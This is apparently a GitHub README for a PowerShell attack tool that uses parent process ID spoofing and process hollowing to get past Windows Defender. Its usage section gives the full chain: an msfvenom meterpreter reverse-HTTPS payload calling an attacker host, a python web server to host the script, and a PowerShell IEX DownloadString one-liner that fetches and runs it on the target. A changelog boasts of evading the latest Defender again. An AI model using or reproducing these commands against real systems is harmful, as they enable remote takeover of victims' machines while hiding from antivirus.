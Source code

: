 # Reflective PPID ⧓ ProcHollow
**A powershell script that performs reflective parent process ID (PPID) spoofing and process hollowing to evade Windows Defender**

```
                                        _____  _____ _____ _____                            
                                       |  __ \|  __ \_   _|  __ \                           
                                       | |__) | |__) || | | |  | |                          
           ((((((((*                   |  ___/|  ___/ | | | |  | |              /#######(         
        (((((((((((((((,               | |    | |    _| |_| |__| |              *##############(      
       ((((((((((((((((((((            |_|    |_|   |_____|_____/           .##################((     
      (((((((((((((((((((((((((                                         ######################(((    
      (((((((((((((((((((((((((((((     **                   /,     ##########################(((    
      ((((((((((((((((((((((((((((((((,     ************,,,     *#############################(((    
      ((((((((((((((((  ,(((((((((((((((,   ************,,,   ###############(,  #############(((    
      (((((((((((((((*                      ************,,,   ,                  (############(((    
      ((((((((((((((((((((((((((((((,       ************,,,       ,###########################(((    
      ((((((((((((((((((((((((((((((((((,   ************,,,   ################################(((    
      (((((((((((((((((((((((((((((.        ************,,,        ,(#########################(((    
      (((((((((((((((*                 ,.   ***********,,,,   /,                 #############(((    
      (((((((((((((((( ,((((((((((((((((,   ,,,,,,,,,,,,,,,   (((##############, #############(((    
      ((((((((((((((((((((((((((((((((      ,,,,,,,,,,,,,,,      ((((########################((((    
      ((((((((((((((((((((((((((((.     **                   /*     *((((###################(((((    
      ((((((((((((((((((((((((/     *///                      .///,     ((((#############((((((((    
       ((((((((((((((((((((     .////*                           /////      ((((((((((((((((((((     
        (((((((((((((((      //**.                                   ,**//      ((((((((((((((/      
           *(((((((        _____                _    _       _ _                      .(((((((.         
                          |  __ \              | |  | |     | | |              
                          | |__) | __ ___   ___| |__| | ___ | | | _____      __
                          |  ___/ '__/ _ \ / __|  __  |/ _ \| | |/ _ \ \ /\ / /
                          | |   | | | (_) | (__| |  | | (_) | | | (_) \ V  V / 
                          |_|   |_|  \___/ \___|_|  |_|\___/|_|_|\___/ \_/\_/  
```

The script has been hardcoded to search for a parent process (svchost.exe) that matches the current logged on user's privilege and spawns a child process (taskhostw.exe). Feel free to edit the script to take in arguments

*I developed the v1.0 script and have been using it since OSEP days... but it recently triggered an alert for Windows Defender. Decided to improve it to evade again, enjoy script v1.2😀*

## Demo Video
YouTube (higher resolution): https://www.youtube.com/watch?v=GB59m-KJvd0

## Usage
1. Generate msfvenom payload
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 EXITFUNC=thread -f ps1`
2. Search for `Your payload here` at the top of the script and replace it with the generated payload
3. Host the script on your kali `python3 -m http.server 8088`
4. On your target machine `powershell -ep Bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8088/Reflective-PPIDxProcHollow_v1.2.ps1')`

## Disclaimer
As we are performing parent process ID spoofing, it can be detected via Event Tracing for Windows (EWT).

## Evading AV
- The v1.0 script creates an alert on Windows Defender upon launching cmd.exe from meterpreter shell. However, your meterpreter shell will still be **kept alive** despite the alert.
- The v1.1 script eradicates the issue of v1.0 and it also makes the process looks more legitimate by spawning it under another parent process through PPID Spoofing. 
- The v1.2 script evades more AV due to it not touching disk at all 😁

## Change Logs
2022-12-12 -- v1.2
   - Converted the script to reflective
   - Disk is lava: Resolved v1.1 issue on temporarly artifacts written to disk.
   - Evading latest Windows Defender again as of 12 Dec 2022
   
2022-12-10 -- v1.1
   - Integrated with PPID spoofing
   - Evading latest Windows Defender again as of 10 Dec 2022

2021-09-18 -- v1.0
   - Simple Process Hollowing
   - Windows Defender alert pop up when launch cmd.exe but our meterpreter shell will not die
  
